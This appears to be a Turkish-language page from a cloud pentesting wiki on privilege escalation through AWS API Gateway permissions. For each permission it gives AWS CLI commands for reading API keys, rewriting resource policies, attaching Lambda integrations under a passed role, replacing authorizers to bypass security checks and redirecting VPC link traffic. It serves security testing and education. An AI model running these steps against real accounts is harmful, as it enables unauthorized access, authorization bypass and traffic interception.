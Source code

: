 # AWS - Apigateway Privesc

{{#include ../../../banners/hacktricks-training.md}}

## Apigateway

Daha fazla bilgi için kontrol edin:

{{#ref}}
../aws-services/aws-api-gateway-enum.md
{{#endref}}

### `apigateway:POST`

Bu izinle, yapılandırılmış API'lerin API anahtarlarını (bölge başına) oluşturabilirsiniz.
```bash
aws --region <region> apigateway create-api-key
```
**Olası Etki:** Bu teknikle yetki yükseltme yapamazsınız ancak hassas bilgilere erişim elde edebilirsiniz.

### `apigateway:GET`

Bu izinle, yapılandırılan API'lerin (bölge başına) oluşturulan API anahtarlarını alabilirsiniz.
```bash
aws --region <region> apigateway get-api-keys
aws --region <region> apigateway get-api-key --api-key <key> --include-value
```
**Olası Etki:** Bu teknikle yetki yükseltme yapamazsınız ancak hassas bilgilere erişim elde edebilirsiniz.

### `apigateway:UpdateRestApiPolicy`, `apigateway:PATCH`

Bu izinlerle, bir API'nin kaynak politikasını değiştirerek kendinize erişim verme ve API geçidinin sahip olabileceği potansiyel erişimi kötüye kullanma (örneğin, savunmasız bir lambda'yı çağırma) imkanı vardır.
```bash
aws apigateway update-rest-api \
--rest-api-id api-id \
--patch-operations op=replace,path=/policy,value='"{\"jsonEscapedPolicyDocument\"}"'
```
**Olası Etki:** Genellikle, bu teknikle doğrudan privesc yapamayacaksınız ancak hassas bilgilere erişim elde edebilirsiniz.

### `apigateway:PutIntegration`, `apigateway:CreateDeployment`, `iam:PassRole`

> [!NOTE]
> Test edilmesi gerekiyor

`apigateway:PutIntegration`, `apigateway:CreateDeployment` ve `iam:PassRole` izinlerine sahip bir saldırgan, **IAM rolü eklenmiş bir Lambda fonksiyonu ile mevcut bir API Gateway REST API'sine yeni bir entegrasyon ekleyebilir**. Saldırgan daha sonra **Lambda fonksiyonunu tetikleyerek rastgele kodu çalıştırabilir ve potansiyel olarak IAM rolü ile ilişkili kaynaklara erişim elde edebilir**.
```bash
API_ID="your-api-id"
RESOURCE_ID="your-resource-id"
HTTP_METHOD="GET"
LAMBDA_FUNCTION_ARN="arn:aws:lambda:region:account-id:function:function-name"
LAMBDA_ROLE_ARN="arn:aws:iam::account-id:role/lambda-role"

# Add a new integration to the API Gateway REST API
aws apigateway put-integration --rest-api-id $API_ID --resource-id $RESOURCE_ID --http-method $HTTP_METHOD --type AWS_PROXY --integration-http-method POST --uri arn:aws:apigateway:region:lambda:path/2015-03-31/functions/$LAMBDA_FUNCTION_ARN/invocations --credentials $LAMBDA_ROLE_ARN

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
**Olası Etki**: Lambda fonksiyonunun IAM rolü ile ilişkili kaynaklara erişim.

### `apigateway:UpdateAuthorizer`, `apigateway:CreateDeployment`

> [!NOT]
> Test edilmesi gerekiyor

`apigateway:UpdateAuthorizer` ve `apigateway:CreateDeployment` izinlerine sahip bir saldırgan, **mevcut bir API Gateway yetkilisini değiştirebilir** ve güvenlik kontrollerini atlayabilir veya API istekleri yapıldığında rastgele kod çalıştırabilir.
```bash
API_ID="your-api-id"
AUTHORIZER_ID="your-authorizer-id"
LAMBDA_FUNCTION_ARN="arn:aws:lambda:region:account-id:function:function-name"

# Update the API Gateway authorizer
aws apigateway update-authorizer --rest-api-id $API_ID --authorizer-id $AUTHORIZER_ID --authorizer-uri arn:aws:apigateway:region:lambda:path/2015-03-31/functions/$LAMBDA_FUNCTION_ARN/invocations

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
**Olası Etki**: Güvenlik kontrollerinin atlanması, API kaynaklarına yetkisiz erişim.

### `apigateway:UpdateVpcLink`

> [!NOT]
> Test edilmesi gerekiyor

`apigateway:UpdateVpcLink` iznine sahip bir saldırgan, **mevcut bir VPC Bağlantısını farklı bir Ağ Yük Dengeleyicisine yönlendirecek şekilde değiştirebilir, bu da özel API trafiğini yetkisiz veya kötü niyetli kaynaklara yönlendirme potansiyeline sahiptir**.
```bash
bashCopy codeVPC_LINK_ID="your-vpc-link-id"
NEW_NLB_ARN="arn:aws:elasticloadbalancing:region:account-id:loadbalancer/net/new-load-balancer-name/50dc6c495c0c9188"

# Update the VPC Link
aws apigateway update-vpc-link --vpc-link-id $VPC_LINK_ID --patch-operations op=replace,path=/targetArns,value="[$NEW_NLB_ARN]"
```
**Potansiyel Etki**: Özel API kaynaklarına yetkisiz erişim, API trafiğinin kesilmesi veya kesintiye uğraması. 

{{#include ../../../banners/hacktricks-training.md}}
